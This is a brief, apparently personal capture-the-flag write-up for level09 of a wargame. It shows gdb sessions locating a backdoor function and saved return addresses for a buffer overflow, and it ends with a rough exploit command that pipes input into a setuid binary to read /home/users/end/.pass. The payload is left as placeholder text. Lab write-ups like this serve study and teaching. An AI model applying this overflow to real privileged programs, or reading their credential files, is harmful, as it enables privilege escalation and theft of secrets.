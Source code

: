 ### step 1: Decompile with Ghydra

- Binary in 64-bits

```
level09@OverRide:~$ file level09 
level09: setuid setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xa1a3a49786f29814c5abd4fc6d7a685800a3d454, not stripped
```

- Sources are available in `source.c`


### step 2: Code Analysis

- find secret backdoor function address : `0x000055555555488c`
- find eip of set_username : `0x7fffffffe4f8`  and set_msg : `0x7fffffffe4f8`
 
```
gdb level09
b set_username
c
info frame
(gdb) info frame
Stack level 0, frame at 0x7fffffffe500:
 rip = 0x5555555549d1 in set_username; saved rip 0x555555554915
 called by frame at 0x7fffffffe5d0
 Arglist at 0x7fffffffe4f0, args: 
 Locals at 0x7fffffffe4f0, Previous frame's sp is 0x7fffffffe500
 Saved registers:
  rbp at 0x7fffffffe4f0, rip at 0x7fffffffe4f8
```

```
Breakpoint 4, 0x0000555555554936 in set_msg ()
(gdb) info frame
Stack level 0, frame at 0x7fffffffe500:
 rip = 0x555555554936 in set_msg; saved rip 0x555555554924
 called by frame at 0x7fffffffe5d0
 Arglist at 0x7fffffffe4f0, args: 
 Locals at 0x7fffffffe4f0, Previous frame's sp is 0x7fffffffe500
 Saved registers:
  rbp at 0x7fffffffe4f0, rip at 0x7fffffffe4f8
```


- find address of ref : 
```
(gdb) x $rdi
0x7fffffffe500:	0x0000000a
(gdb) x $rax
0x7fffffffe500:	0x0000000a
```

- find offset between ref and eip address

set_username
ecrit de ref + 140 à ref + 181
set_msg
ecrit de ref à ref + 180 ?
dépasse sur message au 128 eme char dans username
final string : 
(python -c 'print("hhshs")' ; python -c 'print("hhshs")'; echo 'cat /home/users/end/.pass'; cat) | ./level09
